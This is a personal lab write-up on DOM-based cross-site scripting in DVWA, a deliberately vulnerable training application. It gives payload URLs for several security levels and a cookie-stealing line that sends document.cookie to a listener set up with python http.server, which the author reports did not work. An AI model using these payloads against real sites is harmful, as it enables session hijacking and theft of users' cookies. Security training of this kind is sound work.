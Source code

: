 ```yaml
---
title: "XSS DOM"
date: 2024-12-23T16:06:04+01:00
draft: false
tags: ["Caido", "XXS", "Web"]
categories: ["Hacking"]
description: "A practical guide to exploiting DOM-based Cross-Site Scripting (XSS) vulnerabilities in DVWA. Learn how attackers manipulate the Document Object Model to execute malicious scripts, steal cookies, and bypass input validation. Includes hands-on payloads, real-world examples, and tips for detection and prevention."
---
```


This attack takes advantage of the Document Object Model(DOM). Manipulating the URL to insert script or change parameters for the attack. 

By setting up a python server, http traffic, specifically cookies can be pulled using the document.cookie parameter and be sent to the server using window.location. Input validation will stop this attack. 

https://portswigger.net/web-security/cross-site-scripting/dom-based

Source:
```dvwa/vulnerabilities/xss_d/?default=English<script>alert(document.cookie)</script>```
	In this example the source is the (document.cookie) java script property

Useful functions: 

\\\ `document.URL`
\\\ `document.documentURI`
\\\ `document.URLUnencoded`
\\\ `document.baseURI`
\\\ `location`
\\\ `document.cookie`
\\\ `document.referrer`
\\\ `window.name`
\\\ `history.pushState`
\\\ `history.replaceState`
\\\ `localStorage`
\\\ `sessionStorage`
\\\ `IndexedDB` (mozIndexedDB, webkitIndexedDB, msIndexedDB)
\\\ `Database`

Sink: 
	An example of an HTML sink is `document.body.innerHTML` because it potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.
	eval()

![Screenshot](1.png)

DVWA has 3 settings to show different levels of security. Below are the bypasses for each level.

Low:

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>`

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=%3Cimg%20alt=%3C/noframes%3E%3Cscript%3Ealert(1)%3C/script%3E`

Medium:

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<select><audio src/onerror=alert(document.cookie)>`

Importantly the select parameter is used in the source code and will help the validated script break out(?)

This is used to set up a server that will receive the cookie.

`python3 -m http.server 1337 (setup server)`

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<select><audio src/onerror= window.location='http://192.168.10.123:1337=cookie/?=' + document.cookie>`

This didn't give us the cookie, will require more work to send cookie to server. 

![Screenshot](2.png)

![Screenshot](3.png)

![Screenshot](4.png)


High: 

Insert hash end of main url.

`192.168.10.123/dvwa/vulnerabilities/xss_d/#?default=<script>alert(document.cookie)</script>`

Maybe works>>>>

`192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<template><select><option></template><img scr=1 onerror=alert(1)</select><template>`

This one works:

`<img src=x onerror=alert(1)>`

Resources: 

[https://owasp.org/www-community/Types...](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqa2pmaklMTmVyS0hPUkNnR19wTUZoSUVrb2g3Z3xBQ3Jtc0ttb3dlcTdob29fYzJUZU9zWnN2UEtTTS03NWdCXy1mZEhCcDctQ0phbVdqZExwX084bkhLMk83MmdwTHQ5eGhqMkh0Y1ZDMUdPWlZHQ0tUUEZVQk9xRExtUklWQ25LclNWWFpfQWlINUNpOXRwSXdmNA&q=https%3A%2F%2Fowasp.org%2Fwww-community%2FTypes_of_Cross-Site_Scripting&v=X87Ubv-qDm4) 
